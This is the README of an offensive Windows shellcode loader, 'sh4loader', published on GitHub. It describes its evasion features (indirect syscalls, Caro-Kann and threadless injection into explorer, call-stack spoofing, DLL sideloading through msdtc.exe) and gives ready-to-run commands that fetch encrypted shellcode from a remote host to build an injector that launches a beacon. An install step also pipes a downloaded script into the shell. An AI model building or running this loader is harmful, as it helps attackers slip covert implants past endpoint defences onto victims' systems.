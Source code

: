 # sh4loader v2.0.0

<p align="center">
<img src="https://raw.githubusercontent.com/Sh4N4C1/gitbook/main/images/sh4loader_v2.png" alt="sh4loader_v2">
</p>

## ✨ Function

- **No CRT**
- **Dll Sideload**
- **Indirect Syscall**: sh4loader use `indirect` syscall.
- **Caro Kann**: sh4loader use [Caro-Kann](https://github.com/S3cur3Th1sSh1t/Caro-Kann) injection to evade kernel triggered memory scans.
- **Runtime Decrypt Shellcode**: sh4loader will bruteforce shellcode decryption key at runtime.
- **Threadless injection**: sh4loader use threadless injection.
- **CallstackSpoofing**: sh4loader use [CallstackSpoofing](https://github.com/pard0p/CallstackSpoofingPOC)

## Injection Method

- msdtc_dll 
- threadless

## Install

```bash
git clone https://github.com/sh4n4c1/sh4loader.git
cd sh4loader
cargo build --release
./target/release/sh4loader --help
```

if build failed, we need update rustc

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh # update rustc
```

## Usage

```bash
sh4loader -m msdtc_sideload -u http://192.168.75.1/enc_shellcode.bin -p /tmp/shellcode.bin -o /tmp/project
sh4loader -m threadless -u http://192.168.75.1/enc_shellcode.bin -p /tmp/shellcode.bin -o /tmp/project
sh4loader -m threadless -u http://192.168.75.1/enc_shellcode.bin -p /tmp/shellcode.bin -o /tmp/project -r
```

## Detail

### threadless

```bash
sh4loader -m threadless -u http://192.168.75.1/enc_shellcode.bin -p /tmp/shellcode.bin -o /tmp/project -r # delete '-r' to use local injection
```

This implant will find two memory, one for the `xor-encrypted main shellcode`, and one for the `Caro-Kann shellcode`. In threadless injection, it will first hook the target function, and then jump to the fixed shellcode to save the function state and then jump Go to Caro-Kann shellcode, Caro-Kann will help us decrypt and execute the main shellcode

```
  TARGET PROCESS
+-----------------+
|  [function A]   |------+ hooked function called and jump to our <save and jump shellcode> (1)
|    <hooked>     |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <save and jump> |<-----+ the <save and jump shellcode> will save hooked function state and jump to Caro (2)
|   <Caro-Kann>   |------+ <Caro-Kann shellcode> will sleep and decrypt <main shellcode> (3)
+-----------------+      |
|  [function B]   |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <main shellcode>|<-----+ <Caro-Kann shellcode> jump to <main shellcode> (4)
+-----------------+
```

1. During the execution of the implant, shellcode is patched to save the jump address.
2. [Callstack spoof](https://github.com/pard0p/CallstackSpoofingPOC) means that NtAPI will be called using the TpReleaseWork proxy.
3. The default function A and function B are `RtlNtStatusToDosError` and `NtCreateWnfStateName` respectively. The default process is `explorer`,because after using API Monitor I found that the explorer process seems to call RtlNtStatusToDosError every other time, and the NtCreateWnfStateName function is used to store the main shellcode.

### msdtc_sideload

```bash
sh4loader -m msdtc_sideload -u http://192.168.75.1/enc_shellcode.bin -p /tmp/shellcode.bin -o /tmp/project
```

Then put the generated msdtctm.dll and msdtc.exe in the same directory. The msdtc.exe from C:\Windows\System32 folder.

```
    [msdtc.exe]
        |
msdtctm.dll loaded for use `DtcMainExt` function    
        |
    [my evil msdtctm.dll]
        |
msdtc.exe lanuch evil `DtcMainExt` function
        |
    [ BEACON ]
```


## Resources

- https://www.vulnlab.com/
- https://maldevacademy.com/
- https://github.com/pard0p/CallstackSpoofingPOC
- https://github.com/CCob/ThreadlessInject
- https://github.com/S3cur3Th1sSh1t/Caro-Kann
- https://github.com/caueb/ThreadlessStompingKann
- https://0xdarkvortex.dev/hiding-in-plainsight/

This is my first time writing a loader.I'm not some sort of expert on malware development, C, C++.I will be making a lot of mistakes,I hope that my coding skills get better and better

Obviously, the stuff in this repository is explicitly for educational purposes.
